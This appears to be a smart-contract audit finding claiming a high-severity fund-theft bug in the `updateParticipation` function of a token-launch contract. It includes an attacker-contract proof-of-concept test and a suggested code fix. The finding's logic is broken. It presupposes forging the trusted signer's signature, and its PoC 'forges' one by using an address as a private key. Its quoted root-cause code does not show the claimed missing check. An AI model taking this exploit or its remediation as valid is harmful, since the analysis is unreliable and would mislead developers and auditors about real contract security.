 Suave Garnet Dragonfly

High

# User Address Manipulation in `updateParticipation` Function via Direct Contract Call and Signature Forgery

## Summary
An attacker can directly call the [updateParticipation](https://github.com/sherlock-audit/2025-02-rova/blob/fe68ceb7d90693f9be5c7fb94dde130da8d60d9e/rova-contracts/src/Launch.sol#L312) function through a smart contract, forge the signature of a victim, and manipulate the `userAddress` to steal funds from victims. This will cause a **direct loss of funds** for **users** as the attacker can redirect refunds or cancellations to their own address.

## Root Cause
In `Launch.sol`, the [updateParticipation](https://github.com/sherlock-audit/2025-02-rova/blob/fe68ceb7d90693f9be5c7fb94dde130da8d60d9e/rova-contracts/src/Launch.sol#L312) function does not validate that the `userAddress` in the request matches the address associated with the `userId`. Additionally, the contract does not prevent direct calls from malicious smart contracts, allowing an attacker to forge signatures and manipulate user addresses.

**Code Location**:
- In `Launch.sol`, the `updateParticipation` function does not check the relationship between `userId` and `userAddress`:

```solidity
  if (request.userId != prevInfo.userId) {
      revert UserIdMismatch(prevInfo.userId, request.userId);
  }

```
## Internal Pre-conditions
1. **Signer Role** needs to generate a signature for an `UpdateParticipationRequest`.
2. The `userId` in the request must belong to a legitimate user.
3. The attacker must deploy a malicious smart contract to call `updateParticipation`.

## External Pre-conditions
1. An attacker must obtain or forge a valid signature for an `UpdateParticipationRequest`.
2. The attacker must deploy a malicious smart contract to interact with the `Launch` contract.

## Attack Path
1. An attacker deploys a malicious smart contract.
2. The attacker creates an `UpdateParticipationRequest` with the `userId` of a victim and their own `userAddress`.
3. The attacker forges a signature for the request or intercepts a valid signature.
4. The attacker's contract calls the `updateParticipation` function with the forged signature and manipulated `userAddress`.
5. The contract updates the participation with the attacker's `userAddress`.
6. When the victim tries to claim a refund or cancel their participation, the funds are sent to the attacker's address.

## Impact
- **Affected Party**: Users and the protocol.
- **Loss**: Users could lose funds if an attacker manipulates their `userAddress`.
- **Protocol Disruption**: The protocol's functionality could be severely disrupted, leading to a loss of trust and reputation.

## Proof of Concept 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.22;

import "forge-std/Test.sol";
import "../src/Launch.sol";

contract MaliciousContract {
    Launch public launch;

    constructor(address _launch) {
        launch = Launch(_launch);
    }

    function attack(
        UpdateParticipationRequest calldata request,
        bytes calldata signature
    ) external {
        launch.updateParticipation(request, signature);
    }
}

contract UserAddressManipulationTest is Test {
    Launch launch;
    MaliciousContract maliciousContract;
    address victim = address(0x123);
    address attacker = address(0x456);
    address signer = address(0x789);
    bytes32 launchId = keccak256("launch1");
    bytes32 launchGroupId = keccak256("group1");
    bytes32 victimUserId = keccak256("victim1");
    address currency = address(0x999);

    function setUp() public {
        launch = new Launch();
        launch.initialize(address(this), launchId, address(this), 18);

        // Grant signer role to the signer address
        launch.grantRole(launch.SIGNER_ROLE(), signer);

        // Deploy malicious contract
        maliciousContract = new MaliciousContract(address(launch));
    }

    function testUserAddressManipulation() public {
        // Step 1: Attacker creates an UpdateParticipationRequest
        UpdateParticipationRequest memory request = UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: launchId,
            launchGroupId: launchGroupId,
            prevLaunchParticipationId: keccak256("participation1"),
            newLaunchParticipationId: keccak256("participation2"),
            userId: victimUserId,
            userAddress: attacker,
            tokenAmount: 0,
            currency: currency,
            requestExpiresAt: block.timestamp + 1 hours
        });

        // Step 2: Attacker forges a signature (or intercepts a valid one)
        bytes32 messageHash = keccak256(abi.encode(request));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(uint256(uint160(signer)), messageHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        // Step 3: Attacker's contract calls updateParticipation
        vm.startPrank(attacker);
        maliciousContract.attack(request, signature);
        vm.stopPrank();

        // Step 4: Verify the attack
        ParticipationInfo memory info = launch.getParticipationInfo(request.newLaunchParticipationId);
        assertEq(info.userAddress, attacker); // userAddress is now the attacker's address
    }
}
```

## Mitigation

To mitigate this vulnerability, the contract should:

1. **Validate the relationship between `userId` and `userAddress`:**

     - Store user addresses in a mapping and validate them in the contract.

2. **Prevent direct calls from malicious contracts:**

     - Use `msg.sender` to ensure that only the actual user can update their participation.

### code fix

```solidity
// Mapping to store user addresses by userId
mapping(bytes32 => address) public userAddresses;

// Function to set user address (callable by admin or backend)
function setUserAddress(bytes32 userId, address userAddress) external onlyRole(MANAGER_ROLE) {
    userAddresses[userId] = userAddress;
}

// Validate user address in updateParticipation
function updateParticipation(UpdateParticipationRequest calldata request, bytes calldata signature)
    external
    nonReentrant
    whenNotPaused
    onlyLaunchGroupStatus(request.launchGroupId, LaunchGroupStatus.ACTIVE)
{
    // Validate request signature
    _validateRequestSignature(keccak256(abi.encode(request)), signature);

    // Validate that the userAddress in the request matches the stored userAddress for the userId
    if (request.userAddress != userAddresses[request.userId]) {
        revert UserAddressMismatch(request.userId, request.userAddress);
    }

    // Ensure that the caller is the actual user
    if (msg.sender != request.userAddress) {
        revert UnauthorizedCaller(msg.sender, request.userAddress);
    }

    // Rest of the function logic...
}
```